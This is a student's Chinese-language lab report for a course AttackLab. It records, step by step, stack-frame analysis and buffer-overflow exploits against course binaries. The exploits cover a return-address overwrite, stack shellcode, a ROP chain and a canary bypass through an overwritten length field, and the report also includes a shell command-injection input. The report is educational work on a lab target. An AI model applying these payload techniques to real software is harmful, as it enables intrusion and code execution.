






# Lab3 AttackLab 实验报告

姓名 / 学号：（QWQ我就不填了）

## 一、实验环境与方法

- 环境：WSL2 Ubuntu 24.04，x86-64；`gdb`（装了 GEF）、`objdump -d -Mintel`、`readelf`、`python3`。
- 流程：反汇编找关键指令 → gdb 下断点单步核对栈帧和寄存器 → 按小端拼 payload → 重定向给目标程序验证输出。
- 前提：四个目标程序都是 non-PIE（`readelf -h` 里 Type 是 EXEC），代码段地址固定；`attack/` 下的二进制不能改。

## 二、任务：观察栈帧 input（20 分）

和调用栈相关的寄存器是 `rsp` 和 `rbp`：`rsp` 指向栈顶，`rbp` 指向当前栈帧底部，函数里用 `rbp-偏移` 访问局部变量；栈从高地址往低地址长，压栈是 rsp 减小。

### 关键反汇编

```
401977: 55                 push rbp
401978: 48 89 e5           mov  rbp,rsp
40197b: 48 83 ec 10        sub  rsp,0x10
```

### 分析

**调用者。** input 由 main 调用。调用链是 `__libc_start_main → __wrap_main → main → input`，其中 `__wrap_main` 是链接时 `--wrap=main` 包出来的，它把 rsp 换到固定栈后再调 main。

**前三条指令。** `push rbp` 保存调用者的 rbp，`mov rbp,rsp` 建立当前帧，`sub rsp,0x10` 给 `expression[16]` 留空间。断点时 rbp = 0x721000800fe0，`*(long*)$rbp` = 0x721000800ff0，即 main 的 rbp，来自第一条 `push rbp`。（`b input` 实际断在 input+8 的 0x40197f，序言已执行完。）

**rbp+8。** 是 0x401ad1，也就是 `call input` 的下一条指令，即返回地址：

```
401acc: call 401977 <input>
401ad1: mov  eax,0x0
```

**谁写入了 rbp+8。** 这个值由 `call` 压入。执行前 rsp = 0x721000800ff0，执行后 rsp = 0x721000800fe8，该地址被写入 0x401ad1。返回地址由硬件自动压栈，反汇编里看不到单独的指令。

**call、序言、leave、ret。** 作用：

| 指令 | 做的事 | 观察到的数值 |
|---|---|---|
| `call` | push 返回地址，然后跳转 | rsp−8，`rbp+8` = 0x401ad1 |
| 序言 | 保存 caller 的 rbp、建帧、给局部变量留空间 | rbp = 0x721000800fe0 |
| `leave` | mov rsp,rbp; pop rbp | rsp 0x...fd0 → 0x...fe8，rbp 恢复 0x...ff0 |
| `ret` | pop rip | rip = 0x401ad1，rsp = 0x721000800ff0 |

四步合起来是对栈的一次对称压/弹。

### 验证记录

```
(gdb) b input
Breakpoint 1 at 0x40197f
(gdb) r
Breakpoint 1, 0x000000000040197f in input ()
(gdb) info registers rbp rsp
rbp            0x721000800fe0
rsp            0x721000800fd0
(gdb) x/2gx $rbp
0x721000800fe0:  0x0000721000800ff0  0x0000000000401ad1
(gdb) bt
#0  0x000000000040197f in input ()
#1  0x0000000000401ad1 in main ()

(gdb) b *0x401acc
(gdb) r
Breakpoint 1, 0x0000000000401acc in main ()
(gdb) info registers rsp
rsp            0x721000800ff0
(gdb) stepi
0x0000000000401977 in input ()
(gdb) info registers rsp
rsp            0x721000800fe8
(gdb) x/gx $rsp
0x721000800fe8:  0x0000000000401ad1
```



## 三、用不同长度的字符串测试 dark-calc（5 分）

### 关键反汇编

```
char expression[MAXLEN+1];   /* MAXLEN 15，共 16 字节，位于 rbp-0x10 */
gets(expression);            /* 不检查长度，读到换行或 EOF 才停 */
```

+1 是给 `'\0'` 留的，15 个字符加结束符刚好占满 16 字节。

### 分析

**20 和 32 个字符的结果**

| 输入 | 实际写入 | 现象 |
|---|---|---|
| 20 个 A | 21 字节 | 不崩。先打印 0（`echo $((AAAA…))` 把未定义变量当 0），读到 EOF 后打印 `42_is_The_Ànswer` 正常退出。saved rbp 已变成 0x4141…，只是没被用到 |
| 32 个 A | 33 字节 | Segmentation fault（exit=139），无输出。返回地址整 8 字节变成 0x4141414141414141，ret 跳飞 |

**越界数据落在哪**

```
0x721000800fd0: 41 41 41 41 41 41 41 41 ...   <- expression 16 字节
0x721000800fe0: 41 41 41 ...                  <- saved rbp
0x721000800fe8: 41 41 41 ...                  <- 返回地址
```

**47 字节上限。** expression 在 0x721000800fd0，这一页到 0x721000801000 结束，还剩 0x30 = 48 字节；`init_fixed_stack` 把 0x721000801000 这一页 mprotect 成 PROT_NONE 当保护页，第 48 个字节正好踩上去。

### 验证记录

实测 47 能过、48 在 `gets` 内部就崩，符合保护页的解释。





## 四、任务：利用缓冲区漏洞执行 ./malware（25 + 5 分）

### 关键反汇编

```
401a6b: mov edi,0x6030d0      ; edi = command_buf
401a70: call 4017e0 <system>  ; system(command_buf)
```

### 分析

不能跳到 eval 开头，它会把 command_buf 包成 `echo $(( 输入 ))`；0x401a6b 是 `call system` 之前那条，此时 command_buf 还是原始输入。直接 ret 到 eval 开头 0x4019d7 会崩在 `do_system+101`，因为少了 `call` 压入返回地址的那一次，system 入口 rsp 没对齐到 16 字节；0x401a6b 后面紧跟 `call system`，自己会压栈，对齐正好补上。

### payload 构造

| 偏移 | 内容 | 说明 |
|---|---|---|
| 0x00–0x09 | `"./malware"` | strcpy 会复制进 command_buf |
| 0x0a | `\0` | 字符串结束 |
| 0x0b–0x0f | 'A'×5 | 填满 expression |
| 0x10–0x17 | `0x721000800ff0` | saved rbp |
| 0x18–0x1f | `0x401a6b` | 返回地址 |

共 33 字节，在 47 字节以内。

### 验证记录

```
### The bomb was triggered by the dark-calc process. ###
### You have successfully detonated the bomb! Congratulations! ###
```

system 返回后 eval 的 `leave/ret` 跳到 0x401c1f（`__wrap_main` 里 `call main` 的下一条），那里 `mov rsp,r12` 把栈换回 libc 的栈，最后 exit(0)。

题目提示的非溢出解法也试过：输入 `1));./malware;#`，eval 拼成 `echo $((1));./malware;#))`，malware 作为普通命令执行。提交的 payload 用的是改返回地址的方式。



## 五、用 GDB 检查 main 的机器码（5 分）

### 关键反汇编

```
push rbp        55                    0x401ac3
mov  rbp,rsp    48 89 e5              0x401ac4 - 0x401ac6
mov  eax,0x0    b8 00 00 00 00        0x401ac7 - 0x401acb
```

### 分析

机器码按地址从低到高逐字节连续存放，三条指令分别是 1、3、5 字节，占 0x401ac3–0x401ac3、0x401ac4–0x401ac6、0x401ac7–0x401acb。

### 验证记录

逐条 `si`：rip 从 0x401ac3 → 0x401ac4 → 0x401ac7，与字节数对得上，说明 CPU 是「读 rip 处字节 → 解码长度 → rip 加长度」。多字节数据按小端存放，栈上的 0x401ad1 写作 `d1 1a 40 00 00 00 00 00`。

## 六、任务：栈空间执行（25 + 5 分）

### 关键反汇编

```
mmap(0x721000000000, 0x802000, PROT_READ|WRITE|EXEC, ...)   ; prot = 7
mprotect(0x721000801000, 0x1000, PROT_NONE)               ; 最上一页当保护页
fixed_stack_top = 0x721000801000
; __wrap_main 里：mov rsp, [fixed_stack_top]; call main
```

### 分析

栈地址固定（ASLR 失效）且可执行（NX 失效），expression 在 0x721000800fd0，这个地址可以直接写进 payload。要执行的只有 `grade_eval(4)`，15 字节够了：

```
push 4                  6a 04
pop  rdi                5f
movabs rax,0x401a87     48 b8 87 1a 40 00 00 00 00 00
call rax                ff d0
```

`push/pop` 比 `mov edi,4` 少 2 字节，加一个 nop 正好 16 字节占满 expression。

### payload 构造

shellcode(16) + saved rbp(0x721000800ff0) + 返回地址(0x721000800fd0)，共 33 字节。

### 验证记录

```
 Hope A will be your grade!
```

## 七、任务：ROP（10 + 10 分）

### 关键反汇编

题目给的 gadget 范围是 0x4019d0–0x401ae3，在里面按字节找到：

```
401a30: 41 5e      pop r14
401a32: 41 5f      pop r15        <- 机器码 41 5f
401a34: c3         ret            <- c3
```

### 分析

从 0x401a33（第二字节 0x5f）开始是 `pop rdi`，后面紧跟 0xc3 是 `ret`。x86 指令不要求对齐，这样取 gadget 合法。

### payload 构造

| 位置 | 值 | 作用 |
|---|---|---|
| 0x00–0x0f | 'A'×16 | 原 expression |
| 0x10–0x17 | 0x4242… | saved rbp，随便填 |
| 0x18–0x1f | 0x401a33 | pop rdi; ret |
| 0x20–0x27 | 4 | 弹进 rdi |
| 0x28–0x2f | 0x401978 | grade_eval |
| 0x30–0x37 | 0x401a33 | pop rdi; ret（给 exit 传参） |
| 0x38–0x3f | 0 | 弹进 rdi |
| 0x40–0x47 | 0x4016e0 | exit@plt |

共 72 字节，退出码 0。

### 验证记录

```
 Hope A will be your grade!
```

有些 glibc 版本会在 grade_eval 里的 printf 崩，需要在链头加一个只有 ret 的 gadget 多弹 8 字节；本机没遇到。



## 八、任务：Canary（10 + 10 分）

### 关键反汇编

```
struct log_frame {
  char expression[128];   // rbp-0x120
  char logMsg[128];       // rbp-0x0a0
  int  len;               // rbp-0x020
  char pad[8];            // rbp-0x01c
};
if (gets(f.expression) == NULL) return;
memcpy(f.logMsg + f.len, f.expression, sizeof(f.expression));
```

canary 存在 `rbp-0x8`，返回前比对一次，不一致就调 `__stack_chk_fail` 终止。

### 分析

**直接写。** 280 多字节时报 `*** stack smashing detected ***`。`gets` 会补一个 `'\0'`，正好落在第 280 字节，也就是 canary 上。数据只能写 279 字节。

**两步写。** `memcpy` 的目标是 `f.logMsg + f.len`，而 `f.len` 在 gets 的溢出路径上。gets 写 279 字节（byte 0–279），不碰 canary，同时把 byte 256–259 的 len 改成 160；随后 memcpy 目标变成 `f.logMsg + 160`，128 字节的 expression 被复制到 rbp 开始的位置，盖住 saved rbp 和返回地址。canary 在 rbp-0x8，两次写都绕开了它。

**len = 160 而不是 128**

```
40171e: lea rdx,[rbp-0x120]
401725: sub rdx,0xffffffffffffff80    ; 实际是 rdx += 0x80
401729: add rax,rdx                   ; dest = expression + 0x80 + len
```

`sub rdx,-0x80` 的立即数是 -128，即 +0x80，所以 `&logMsg = expression + 0x80 = rbp-0xA0`，落到 rbp 需要 len = 0xA0 = 160。用 128 时目标变成 rbp-0x20，会把 len 自己冲掉。

### payload 构造

expression 前 128 字节会被搬到 rbp 之后，直接放 ROP 链：8 字节假 saved rbp、`0x4018a3`（pop rdi; ret）、4、`0x401677`（grade_eval）、`0x401834`（main 的 leave 收尾）。payload 共 279 字节加一个 `\0`。

### 验证记录

```
 Hope A will be your grade!
```

之后 grade_eval 返回进 main 的 leave，rbp 是垃圾，Bus error（exit=135）。输出已经刷出，不影响判定。

### 思考题

让 len 不在 gets 的溢出路径上：把 `f.len` 放在 expression 前面（更低地址），gets 够不到；或者把 expression 放到结构体最高处、紧贴 canary，越界先踩 canary 触发保护。根治还是把 `gets` 换成 `fgets(expression, sizeof expression, stdin)`，并检查 len 范围。



## 九、运行结果

| 命令 | stdout 里应出现 | 退出码 |
|---|---|---|
| `payload.py → dark-calc` | `### You have successfully detonated the bomb! Congratulations! ###` | 0 |
| `payload_dark.py → dark-calc` | ` Hope A will be your grade!` | 139（打完才崩） |
| `payload_rop.py → dark-calc-nx` | ` Hope A will be your grade!` | 0 |
| `payload_canary.py → dark-log` | ` Hope A will be your grade!` | 135（打完才崩） |

Task 1 的输出里还有一段 pstree，是 `./malware` 自己打印的，证明它是被 dark-calc 拉起来的：

```
systemd,1
  └─...─bash
      └─dark-calc,801
          └─sh,802 -c -- ./malware
              └─malware,803 ./malware
                  └─pstree,804 -a -l -p -s -H 803 803

### The bomb was triggered by the dark-calc process. ###
### You have successfully detonated the bomb! Congratulations! ###
```

## 十、实验感悟

课上讲 call/leave/ret 时觉得抽象，在 gdb 里一条条 si 看 rsp、rbp 才明白返回地址为什么在 rbp+8。Lab2 是读汇编推公式，这次是真的在改程序行为。

卡住的地方全是细节。栈对齐差 8 字节，system 崩在 libc 里；结构体偏移按源码算错 0x20；payload 多写一个字节踩到保护页。这些只能靠 gdb 看内存、改一个字节试一次。

三层防护各自被绕开的办法都试了一遍：NX 挡栈上执行，gadget 还能拼；ASLR 让栈随机，non-PIE 又把代码段钉死；Canary 能发现一路写到底，挡不住分两次写。一层不够用。

四个任务难度是递增的：白给一个 system，自己写机器码，被 NX 逼着找 gadget，最后绕金丝雀。每把锁都只是多绕一步。

## 十一、意见

QWQ 我是猫，原来栈真的能被玩坏，助教老师好牛逼。

## 十二、参考与工具

- 题目与规则：仓库 `README.md` 与课程讲义。
- 工具：`gdb` + GEF、`objdump -d -Mintel`、`readelf -h/-l`、在线汇编器、`python3`。
- 使用 AI 助手辅助调试、核对偏移与整理报告结构；所有 payload 均在本机实际跑通，并按 CI 方式复跑确认后才提交。
